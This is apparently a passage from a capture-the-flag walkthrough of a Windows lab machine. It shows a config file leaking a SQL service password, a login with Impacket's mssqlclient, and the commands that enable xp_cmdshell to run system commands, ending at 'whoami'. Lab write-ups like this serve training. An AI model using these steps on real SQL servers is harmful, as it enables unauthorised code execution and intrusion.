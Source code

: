```
# cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
```

### Foothold

We see that it contains a SQL connection string, containing credentials for the local Windows user ARCHETYPE\sql_svc.

3. Connect to the SQL Server using Impacket's mssqlclient.py

https://github.com/SecureAuthCorp/impacket

```
(root💀kali)-[/home/kali/impacket/examples]
└─# python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

```
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                  
```
